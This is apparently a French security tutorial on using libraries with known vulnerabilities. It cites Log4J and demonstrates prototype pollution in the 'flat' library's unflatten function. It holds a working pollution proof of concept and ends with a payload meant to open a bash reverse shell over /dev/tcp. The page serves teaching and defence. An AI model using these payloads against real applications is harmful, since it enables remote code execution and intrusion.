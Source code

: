 # 4. Utilisation de librairies avec des vulnérabilités connues

A force d'utiliser des librairies dans nos projets, il peut parfois
arriver qu'une petite faille de sécurité se glisse avec.

On peut noter une faille assez récente (2021), Log4J (CVE-2021-44228)

Cette faille dans Log4J permettait à n'importe qui, qui pouvait controler les logs d'une application, d'éxécuter du code arbitraire.

## Exemple de Prototype Pollution avec la librairie JS `flat`

Sur la version `5.0.0` de la librairie `flat` a été repéré une faille qui permet d'insérer des valeurs dans le prototype JS `__proto__`, ou `global.__proto__`, en utilisant la fonction `unflatten` de la librairie.

### Le principe de la librairie

On passe un paramètre qui permet de transformer un string en un objet.

```javascript
import { unflatten } from 'flat'

unflatten({
    'three.levels.deep': 42,
    'three.levels': {
        nested: true
    }
})

// {
//     three: {
//         levels: {
//             deep: 42,
//             nested: true
//         }
//     }
// }
```

### La vulnérabilité

Cependant, lorsque l'on passe `__proto__`, on va directement intéragir avec le `prototype`.

```javascript
const unflatten = require("flat").unflatten;

unflatten({
    "__proto__.polluted": true
});

console.log(polluted); // true
```

Ainsi, on peut modifier des variables globales et même redéfinir des fonctions !

Un reverse shell pourrait être

```javascript
unflatten({
    "__proto__.someVariable": 'require("child_process").exec("bash -c \'bash -i>& /dev/tcp/127.0.0.1/6666 0>&1\'");'
});
```
